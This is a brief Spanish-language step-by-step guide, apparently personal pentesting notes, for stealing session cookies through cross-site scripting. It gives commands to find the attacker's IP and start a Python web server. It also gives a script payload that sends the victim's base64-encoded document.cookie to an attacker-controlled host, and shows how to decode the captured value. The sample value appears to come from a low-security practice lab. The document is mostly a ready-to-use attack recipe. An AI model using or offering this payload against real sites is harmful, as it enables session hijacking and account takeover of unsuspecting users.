 # Ataque de Robo de Cookies con XSS

Buscar cual es la dirección IP de la máquina atacante:  
`ifconfig`  

Montar un servidor web para almacenar la cookie que voy a robar:  
`python3 -m http.server 80`  

Ejecutar el siguiente código de XSS. Este código para a buscar por una imagen almacenada en la IP del atacante.  
Obviamente la imagen no existe, pero la víctima va a hacer una petición al servidor web creado anteriormente y va a mandar la cookie de la sesión en ese paquete.  

`<script>var i=new Image(); i.src="http://IP-DEL-ATACANTE/?cookie="+btoa(document.cookie);</script>`  

Finalmente, decodificar el texto capturado, ya que está en formato Base64.  
Esto se puede realizar con alguna herramienta en línea como: https://www.base64decode.org
También lo puede hacer en Kali utilizando el aplicativo `base64` con el flag `-d`:  
`echo c2VjdXJpdHk9bG93OyBQSFBTRVNTSUQ9YjRlYjVkNmY1NmRhYTc5YzVlMGVjMjQyMjFiOTE0MDA | base64 -d`
